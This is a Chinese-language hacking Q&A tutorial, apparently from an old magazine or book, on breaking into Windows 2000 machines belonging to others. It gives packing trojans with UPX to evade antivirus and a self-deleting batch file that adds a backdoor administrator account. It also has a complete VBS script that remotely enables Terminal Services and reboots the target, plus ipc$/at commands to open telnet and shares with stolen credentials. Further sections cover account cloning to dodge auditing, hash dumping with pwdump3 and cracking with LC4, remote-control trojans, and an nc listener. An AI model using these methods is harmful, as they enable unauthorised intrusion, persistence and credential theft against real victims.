

图90

不过，腾讯早就把这个 bug 补上了，现在已经没办法看了。

在这里，只是提一下这个古老的漏洞，让大家知道一下就好了。

- 问：怎么才能使自己的木马和后门程序不被杀毒软件杀掉？

相对比较简单的办法就是将后门程序压缩。这里就推荐了 UPX。使用比较简单，有 GUI 界面下的，也有命令行下的。

先说说 GUI 下的（图91），用起来很简单，只要按照提示打开一个文件，然后会自动将其压缩，这样一来的话，一般的杀毒软件都可以躲过去了。



图91

命令行下的 UPX，这才应该是 UPX 最初的模样（图92），直接输入 upx 或是输入 upx -h 来获得帮助，不过都是 E 文，嘿嘿，英文不好，不丢人了，相信大家用的都比我多。



图92

- 问：我给人种了木马，但是对方是拨号上网，我怎么才能获得他每次的 IP？

两个选择，第一就是使用端口反弹式木马，由于这种木马是对方主动连接你，所以，只要通过某种形式（不同的木马使用的方法不一样的）让木马的服务端得到你的 IP，这样你可以进行连接控制了。

第二个方法，那就是随时监视对方。那么，使用 ICQ 或是 OICQ 这类聊天工具就是最好的选择。我们常用的珊瑚 QQ 就可以知道对方的 IP 地址。

这里，有一个如何获得对方的 QQ 的问题。既然你已经控制对方，那么，访问对方的 C 盘（QQ 默认是装在这里的），到如下目录中：`C:\Program Files\Tencent`。这里，可以看到一个或多个以 QQ 号码为目录名的目录（图93），这些 QQ 号就是在本机上使用过的 QQ 了。



图93

- 问：有没有什么好的工具可以创建一个管理员，然后再将工具自身删除掉？

写一个简单的批处理就可以做到这些了，打开记事本，写上如下内容：

```bat
@echo off
rem hack.bat
net user hacker 1234 /add
net localgroup administrators hacker /add
del c:\hack.bat /f /q
```

然后，将它保存为一个 *.bat 文件，上传到对方的 C 盘根目录下，定时运行它，就可以自动创建一个用户名为 hack，密码为 1234 的管理员账号，并且，在命令完成后，它会自动删除自己。

- 问：有没有用 VBS 编写的脚本可以用来打开对方的 Terminal Service 服务的？

确实是有这样的工具，以下是 VBS 的源代码：

```vbscript
on error resume next
set outstreem=wscript.stdout
set instreem=wscript.stdin
if (lcase(right(wscript.fullname,11))="wscript.exe") then
    set objShell=wscript.createObject("wscript.shell")
    objShell.Run("cmd.exe /k cscript //nologo " & chr(34) & wscript.scriptfullname & chr(34))
    wscript.quit
end if
if wscript.arguments.count<3 then
    usage()
    wscript.echo "Not enough parameters."
    wscript.quit
end if

ipaddress=wscript.arguments(0)
username=wscript.arguments(1)
password=wscript.arguments(2)
if wscript.arguments.count>3 then
    port=wscript.arguments(3)
else
    port=3389
end if
if not isnumeric(port) or port<1 or port>65000 then
    wscript.echo "The number of port is error."
    wscript.quit
end if
if wscript.arguments.count>4 then
    reboot=wscript.arguments(4)
else
    reboot=""
end if
```

```vb
usage()
outstream.write "Connecting " & ipaddress & " ..."
set objlocator=createobject("wbemscripting.swbemlocator")
set objswbemservices=objlocator.connectserver(ipaddress,"root/cimv2",username,password)
objswbemservices.security_.privileges.add 23,true
objswbemservices.security_.privileges.add 18,true
showerror(err.number)

outstream.write "Checking OS type..."
set colinstoscaption=objswbemservices.execquery("select caption from win32_operatingsystem")
for each objinstoscaption in colinstoscaption
    if instr(objinstoscaption.caption,"Server")>0 then
        wscript.echo "OK!"
    else
        wscript.echo "OS type is " & objinstoscaption.caption
        outstream.write "Do you want to cancel setup?[y/n]"
        strcancel=instream.read
        if lcase(strcancel)<>"n" then wscript.quit
    end if
next

outstream.write "Writing into registry ..."
set objinstreg=objlocator.connectserver(ipaddress,"root/default",username,password)

with objinstreg
    createkey HKLM,"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\netcache"
    setdwordvalue HKLM,"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\netcache","Enabled",0
    createkey HKLM,"SOFTWARE\\Policies\\Microsoft\\Windows\\Installer"
    setdwordvalue HKLM,"SOFTWARE\\Policies\\Microsoft\\Windows\\Installer","EnableAdminTSRemote",1
    setdwordvalue HKLM,"SYSTEM\\CurrentControlSet\\Control\\TerminalServer","TSEnabled",1
    setdwordvalue HKLM,"SYSTEM\\CurrentControlSet\\Services\\TermDD","Start",2
    setdwordvalue HKLM,"SYSTEM\\CurrentControlSet\\Services\\TermService","Start",2
    setstringvalue HKLM,"DEFAULT\\Keyboard Layout\\Toggle","Hotkey","1"
    setdwordvalue HKLM,"SYSTEM\\CurrentControlSet\\Control\\Terminal Server\\WinStations\\RDP-Tcp","PortNumber",port
end with
showerror(err.number)

rebt=lcase(reboot)
if rebt="/r" or rebt="-r" or rebt="\r" then
    outstream.write "Now, reboot target..."
end if

strWqlQuery="select * from win32_operatingsystem where primary=true"
set colInstances=objSWbemServices.execquery(strWqlQuery)
for each objInstance in colInstances
    objInstance.win32shutdown(6)
next
showerror(err.number)

wscript.echo "You need to reboot target." & vbcrlf & "Then"
wscript.echo "You can logon terminal services on " & port & " later. Good luck!"

function showerror(errornumber)
    if errornumber Then
        wscript.echo "Error 0x" & cstr(hex(err.number)) & "."
        if err.description <> "" then
            wscript.echo "Error description: " & err.description & "."
        end if
        wscript.quit
    else
        wscript.echo "OK!"
    end if
end function

function usage()
    wscript.echo string(79,"*")
    wscript.echo "ROTS v1.01"
    wscript.echo "Remote Open Terminal Services Script, by Everyone"
    wscript.echo "Welcome to visit www.isgrey.com"
    wscript.echo "cscript " & wscript.scriptfullname & " targetIP username password [port] [/r]"
    wscript.echo "port: default number is 3389."
    wscript.echo "/r: auto reboot target."
    wscript.echo string(79,"*") & vbcrlf
end function
```

将这些东西写到记事本中，然后保存为以 vbs 为后缀名的文件就可以了。如果你的机器上装有超级解霸，也许保存为 vbs 的话，会关联到超级解霸。如果这样的话，就保存为后缀名为 vbe。双击这个脚本就会显示帮助，使用方法也很简单（图94）。



图94

## 黑客闯关一点通

### 1. 如何能远程开启对方的 Task Scheduler 服务？（前提：可以建立 ipc$ 连接）

Task Scheduler 服务是用来指定计划任务的服务，我们常用的 at 命令就是该服务的命令。如果 Task Scheduler 服务停止的话，将不能使用 at 命令。但是，我们可以通过下面的方法来开启远程主机上的 Task Scheduler 服务：

首先，有一点必须能保证，就是使用对方的管理员帐号与对方建立 ipc$ 连接。然后，这样做：

控制面板－管理工具－计算机管理，打开后，右键“计算机管理（本地）”，选择“连接到另一台计算机”（图95）；



图95

这时候，出现对话框，在这里面填写对方的主机名或是 IP 地址后（如果直接填写主机名或地址提示错误的话，就以这样的形式来填写：\\ip(or machine_name)），点确定，过一会就可以连上。这个时候，会看到上面写着对方的 IP 或是机器名，这时候你所打开的“服务”也是对方的，这样就可以随意地开启或是关闭服务了（图96）。



图96

### 对方只开了 ipc$ 共享，怎么做？

前提是得到了管理员的口令（假设管理员用户名为 administrator，密码为 123）。接下来，就这样做：

```bash
net use \\ip\ipc$ "123" /user:"administrator"
```

然后，为了攻占主机，我们必须要获得一个 shell 才可以，所以用这个命令：

```bash
at \\ip time net start telnet
```

得到了 time 这个时间后，我们就可以 telnet 上去了。

对了，忘了说，如果大家喜欢用上传 ntlm.exe 的方式来取消对方 NTLM 验证的话，可有点麻烦了，因为这里，我们不得不给对方开个共享，这样来开：

```bash
at \\ip time net share admin$
```

还是等到 time 之后就可以了。这时候大家就可以上传文件了。

通过以上的过程，我们已经获得了 shell，而且还给对方开了共享。接下来，怎么做，就是各位自己的爱好了。

在这里，只提供一些思路。其实，还有很多可以做到的，各位发挥想象力吧。

### 获得了对方的管理员用户名和密码，怎么获得 shell？

如果确定对方开放了 ipc$ 共享的话，我们完全可以按照上面的方法去做。但是，在这里，我们可以借助一个工具直接获得 shell，那就是 opentelnet，使用方法很简单：

```bash
opentelnet \\server administrator password NTLM_value port
```

server 为对方主机地址，administrator 为对方的管理员用户名，password 为密码，NTLM_value 为 0、1、2 的其中一个，port 则为想要开放的端口。Opentelnet 这个工具很容易就可以开启对方的 telnet 服务（图97），值得一试哦。



仔细看看图，注意到这一行：本地组会员 *Administrators *Guests。加来加去，guest 其实还是在 Guests 组里嘛，所以，用这个命令：

```bash
net localgroup guests guest /del
```

这样就把 guest 从 guests 组里删掉了，这时候再看，guest 就只属于 administrators 组了，现在权限上就应该没有什么问题了。

另外，还要说说，由于 guest 是 Win2k 内置的 Guests 组帐号，所以，如果按上面的方法做的话，有时候还是会出现问题的（按几率说，十台机器上可能有三四台会有这样的问题，好像和软件的设置也有关系），所以最好还是自己建立一个管理员帐号。

> 进入对方主机后，把 guest 这个帐号加入到 administrators 组中后；一些操作居然说我权限不够，为什么呀？

我们也来做个实验来说明这个问题吧。首先，我们把 guest 帐号加到 administrators，怎么加不用我教了吧。然后，这时候，使用 net user guest 来查看一下 guest 帐号的属性（图98）。


> 为什么入侵成功后要克隆或是自己专门创建一个独立的帐号呢？使用管理员帐号不可以吗？

一般情况下，如果是通过一些漏洞入侵成功后，我们都会自创建一个帐号以供以后使用。当然，这也是有特定条件的，条件是：通过该漏洞获得的权限为 system 的权限，这样才有可能创建出管理员帐号。例如，有名的 idq、ida 溢出漏洞，获得的就是 system 权限。

另外一种情况，就是克隆帐号了。在获得了管理员帐号的用户名和密码的情况下，我们会使用克隆帐号的方法来给自己留后门。先说说在什么情况下获得管理员的帐号：最常见的就是弱口令。另外，通过 unicode 这类权限不足的后门来下载对方的 SAM 进行破解也是可行的。

## 深入实…（侧边栏栏目）

有很多其他的高级方法，例如获得密码散列、通过 sniffer 截取等等。

在获得了管理员的用户名和密码后，不直接使用的最大原因是容易被发现。一般的服务器都会加上审核，尤其是登录的审核更加严格。这样，如果使用管理员账号在管理员不在的时候登录的话，很容易就会让对方怀疑是被入侵了。但是，如果是克隆的话，例如克隆 IUSR_COMPUTERNAME 这个账号，这样的话，如果使用它登录，管理员会认为是有人在浏览他的 web 页面（不过在一些特殊的登录情况下，例如说终端，也是会被发现的），而且，也应该没有哪个管理员会对这种账号进行审核。

通过以上的分析，可以看出，克隆账号的隐蔽性要好得多。另外，通过这些讲解，大家也应该能了解到自己在人侵成功后，选取哪一种账号后门对当前入侵更有利。

## 如何修改 NTLM 的验证方式？

开始→运行，输入 cmd；回车，在 cmd 命令提示符下输入 tlntadmn，在这里，可以看到一些关于修改 telnet 服务配置的选项（图99）。


图99

在这里，先选择 3，然后再选择 7，就会看到在这里就可以修改 NTLM 的验证方式了（图100），一共有三种。


图100

另外，在注册表中也是可以修改的，位置是：

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\TelnetServer\1.0

右边窗口中，找到 NTLM 键，修改它的数据就可以了（图101）。


图101

## NTLM 验证方式可以修改为 0、1、2 三个值，三个值分别为什么意思？

- 0：不使用 NTLM 身份验证。
- 1：先尝试 NTLM 身份验证。如果失败，再使用用户名和密码。
- 2：只使用 NTLM 身份验证。

一般情况下，入侵的时候，会选择 0 或是 1 这两个值，这样既能有密码保护自己的肉鸡，又可以免受 NTLM 验证的烦恼。

有写权限，应该没有哪个傻瓜会把写权限给 everyone 组吧）。

```bash
C:\>net use \\python\ipc$ /user:python
命令成功完成。

C:\>net use \\python\ipc$ /user:python
本地名称
远程名称    \\python\ipc$
资源类型    IPC
状态        OK
# 打开      0
# 连接      1
命令成功完成。

C:\>
```

图102

☻ 入侵的时候遇到这样的问题：

```bash
net use \\192.168.0.83\ipc$ /user:administrator
本地名称
远程名称 \\192.168.0.83\ipc$
资源类型 IPC
状态 OK
# 打开 1
# 连接 1
命令成功完成。

D:\>copy d:\netsvc.exe \\192.168.0.83\admin$
拒绝访问。
已复制 0 个文件。
```

☻ 问题出在了命令上。由于第一个命令 `net use \\192.168.0.83\ipc$ /user:administrator` 使用错误，第一次使用这样的命令的时候，会忽略后面的 `/user:administrator` 部分，而建立一个空连接；第二次再使用，由于前面已建立连接，则成为了查询状态，就会显示 ipc$ 连接状况了。不信的话，可以在自己的机器上做个实验（图102）。

这样，第二个问题就迎刃而解了。由于建立的是个空连接，那么，只要磁盘对 everyone 组没有写权限的话，肯定是不能上传文件的（默认配置下 everyone 组就没有写权限，应该没有哪个傻瓜会把写权限给 everyone 组吧）。

☻ 我用 x-scan 扫描对方主机，知道对方开了 FTP，但是却扫不到。我想到了对方可能修改了 FTP 端口，但是，并没有其他的异常端口啊？


图103

☻ 你认为没有异常端口其实是因为 x-scan 这个扫描器的默认配置造成的。打开 x-scan（GUI 界面的），依次选择：设置－扫描参数－端口设置。这里，就可以看到，默认情况下，x-scan 只针对一些常见的端口进行扫描（默认情况下扫描的端口有：1-139, 443, 445, 1080, 1433, ... 2049, 3128, 3389, 5000, 7000—7010, 8010, 8080, 8181）（图103）。

这样，如果对方的 FTP 修改的端口并不在列表范围内的话，当然是不会被发现的了，因此大家应该注意，默认的并不一定是最好的。

- 我得到的 IP（QQ 上的）是不是真实的 IP 地址，怎么样才能得到真实的 IP？

看端口了，如果形式是 x.x.x.x:4000，基本上就可以确定这是对方的真正 IP 地址；如果形式是 x.x.x.x:1027，这样的话，可以认为对方是在一个局域网内，通过网关上网的。

另外，根据个人经验，还有一种格式：x.x.x.x:17391，注意这里，这里显示的端口号非常大，一般都是在 10000 以上的端口号；这样的话，可以判断，对方为拨号上网。当然，拨号上网中大部分都是 x.x.x.x:4000 这种形式的，但是，我所说的第三类也有的，有机会的话，大家注意看看哦。

- 如何判断一台主机属于哪个工作组？

使用命令 nbtstat 就可以做到了。这个命令最有用的两点就是：第一，可以获得对方的主机名；第二，可以得知对方所在工作组。不过，要确定你和对方都安装了 NETBEUI 协议并打开了 NETBIOS 端口。

```bash
nbtstat -A ip(or machine_name)
```

这时候，在结果中注意查看，第二行有个 group 那一行，前面的就是工作组名了（图104）。


图104

- 怎么判断对方的 FTP 服务器使用的是什么？

这个很简单，就是 ftp 上去看看就好了。不过要注意，大家不要用 IE 里面输入 ftp://ip 来查看哦。要在 cmd 命令行下，输入 ftp ip 或者 ftp 然后 open ip 来进行连接，连接成功后，会有返回信息，从那里，很容易就可以看出对方的 FTP 服务器的版本是什么了（图105）。


图105

> 小提示：现在，在 Win2k 上使用最多的 FTP 服务器一般就两种，一个是微软的 IIS 中自带的 FTP 服务器，另外一个则是 Serv-U FTP 服务器了。采用这种方法，都可以很容易地获得 FTP 服务器的版本。


### 如何获得远程主机的密码散列？

使用工具 **pwdump3**，这是 pwdump2 的后继版本；对于使用了 syskey 的主机也可以用。使用方法很简单：

```bash
PWDUMP3 machineName [outputFile] [userName]
```

machineName 处写机器名或 IP 地址均可。OutputFile 指明文件生成目录和文件名（默认在当前目录）。Username 为对方主机账号。

示例：`pwdump3 x.x.x.x psw administrator`，会提示输入密码；输入正确后等待片刻即可 complete（图106）。


然后到当前文件夹即可找到刚生成的 `psw` 文件。

### 获得远程主机散列后，如何破解？

LC4 应该是较好的工具。打开 LC4 后，选择“导入—从 pwdump 文件导入”（图107）。


然后选择路径，找到刚保存的 PSW 文件，接下来等待结果。如果不能破解，可调整 LC4 的破解选项。

### 我的肉鸡在一个局域网中（机器上种有灰鸽子），我在另一个局域网中，那么我能控制它吗？

以前较难实现这种控制，但目前灰鸽子及其他类似远控程序（木马）可以做到。

### 有一个内部网络，FTP 服务只对内开放；我在内部有一台肉鸡，想连到内部 FTP，该怎么做？

先获得内部肉鸡的一个 shell，再通过该 shell 连接 FTP。这里建议使用 NC（可做反向连接）。

```bash
nc -vv -l -p 5277
```

